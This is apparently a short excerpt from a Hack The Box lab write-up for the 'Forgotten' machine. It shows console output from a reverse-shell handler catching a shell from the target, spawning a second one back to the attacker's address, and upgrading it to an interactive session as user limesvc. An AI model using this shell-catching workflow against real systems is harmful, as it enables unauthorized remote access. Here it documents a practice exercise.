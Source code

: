 ![](/img/htb_img/Forgotten_img/img10.png)

```
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 10.0.2.15 • 10.10.14.49 • 172.17.0.1
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from efaa6f5097ed~10.129.13.225-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[!] Python agent cannot be deployed. I need to maintain at least one Raw session to handle the PTY
[+] Attempting to spawn a reverse shell on 10.10.14.49:4444
[+] Got reverse shell from efaa6f5097ed~10.129.13.225-Linux-x86_64 😍 Assigned SessionID <2>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/script! 💪
[+] Shell upgraded successfully using /usr/bin/script! 💪
[+] Interacting with session [2], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/repentance/.penelope/sessions/efaa6f5097ed~10.129.13.225-Linux-x86_64/2025_09_26-13_10_26-277.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
[-] Spawn MANUALLY a new shell for this session to operate properly
limesvc@efaa6f5097ed:/$ 
```
